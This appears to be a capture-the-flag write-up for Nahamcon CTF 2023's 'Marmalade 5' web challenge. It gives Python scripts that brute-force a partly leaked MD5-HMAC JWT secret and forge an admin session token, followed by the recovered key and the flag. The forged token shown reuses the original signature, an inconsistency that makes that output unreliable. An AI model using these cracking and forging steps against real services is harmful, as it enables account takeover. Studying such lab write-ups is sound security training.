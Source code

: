 ```yaml
---
name: Marmalade 5 (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Marmalade 5 (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Marmalade 5

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/3LRZsnSyDrQ/0.jpg)](https://www.youtube.com/watch?v=3LRZsnSyDrQ "Nahamcon CTF 2023: Marmalade 5 (Web)")

## Description

> Enjoy some of our delicious home made marmalade!

## Recon

Can't register as `admin`.

```bash
Login as the admin has been disabled
```

Register as `cat` and it says only `admin` can get flag!

Check the [JWT](https://youtu.be/GIq3naOLrTg) in session cookies.

```json
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w
```

Decode it with [jwt.io](https://jwt.io)

```json
{
  "alg": "MD5_HMAC"
}
{
  "username": "cat"
}
```

## First attempts

Tried `null` and `none` algorithm attacks with `jwt_tool`.

```bash
jwt_tool eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w -X a -pc username -pv admin
```

When trying to use the tokens, get an error.

```bash
Invalid algorithm, we only accept tokens signed with our MD5_HMAC algorithm using the secret fsrwjcfszeg*****
```

So we know the first 11 characters of the key `fsrwjcfszeg`, let's try to brute force the last 5.

Tried `jwt_tool` but it doesn't work with the `MD5_HMAC` algorithm.

```bash
jwt_tool eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w -C -p fsrwjcfszeg*****

Algorithm is not HMAC-SHA - cannot test with this tool.
```

Same goes for `hashcat`.

```bash
hashcat -a 3 -m 16500 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w' fsrwjcfszeg?l?l?l?l?l

Hash 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w': Token length exception
No hashes loaded.
```

## Solve script #1 (brute-force)

Let's (me and chatGPT) make a custom script to crack the signature.

```python
import jwt
import hashlib
import hmac
import base64

jwt_token = "eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w"

def verify_jwt(jwt_token, key):
    # Split the JWT into header, payload, and signature
    header, payload, signature = jwt_token.split('.')

    # Recreate the signing input by concatenating the header and payload with a dot
    signing_input = header + '.' + payload

    # Convert the signing input and key to bytes
    signing_input_bytes = signing_input.encode('utf-8')
    key_bytes = key.encode('utf-8')

    # Create an HMAC-MD5 hash object
    hash_obj = hmac.new(key_bytes, signing_input_bytes, hashlib.md5)

    # Get the HMAC-MD5 signature
    calculated_signature = hash_obj.hexdigest()

    # Decode the Base64-encoded signature from the JWT
    decoded_signature = base64.urlsafe_b64decode(signature + "==")

    # Compare the decoded signature with the calculated signature
    if decoded_signature == bytes.fromhex(calculated_signature):
        print("Key:", key)
        exit(0)

# Define the character set and key length
charset = "abcdefghijklmnopqrstuvwxyz"
key_length = 5

# Loop through different keys
for i in range(len(charset) ** key_length):
    key = ""
    for j in range(key_length):
        key = charset[i % len(charset)] + key
        i //= len(charset)

    verify_jwt(jwt_token, 'fsrwjcfszeg' + key)
```

Got the key!

```bash
Key: fsrwjcfszegvsyfa
```

## Solve script #2 (forge token)

Now another custom script to forge a token with user `admin`.

```python
import jwt
import hashlib
import hmac
import base64

jwt_token = "eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w"
key = "fsrwjcfszegvsyfa"

# Split the JWT into header, payload, and signature
header, payload, signature = jwt_token.split('.')

# Decode the payload from the token
decoded_payload = base64.urlsafe_b64decode(payload + "==").decode('utf-8')

# Modify the payload
modified_payload = decoded_payload.replace('"username":"cat"', '"username":"admin"')

# Encode the modified payload
encoded_payload = base64.urlsafe_b64encode(modified_payload.encode('utf-8')).decode('utf-8').rstrip('=')

# Recreate the signing input by concatenating the header and modified payload with a dot
signing_input = header + '.' + encoded_payload

# Convert the signing input and key to bytes
signing_input_bytes = signing_input.encode('utf-8')
key_bytes = key.encode('utf-8')

# Create an HMAC-MD5 hash object
hash_obj = hmac.new(key_bytes, signing_input_bytes, hashlib.md5)

# Get the HMAC-MD5 signature
calculated_signature = hash_obj.digest()

# Encode the calculated signature using base64
encoded_signature = base64.urlsafe_b64encode(calculated_signature).rstrip(b'=').decode('utf-8')

# Replace the characters '+' and '/' in the encoded signature with '-' and '_'
encoded_signature = encoded_signature.replace('+', '-').replace('/', '_')

# Create the modified JWT by concatenating the modified header, encoded payload, and encoded signature
modified_jwt = header + '.' + encoded_payload + '.' + encoded_signature

print("Modified Token:", modified_jwt)
```

Receive a new token, signed with `MD5_HMAC` using the secret key `fsrwjcfszegvsyfa`.

```bash
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.C3Z8QcoVXXFa-LAzFZbZ1w
```

We replace the cookie and receive a flag!

Flag: `flag{a249dff54655158c25ddd3584e295c3b}`
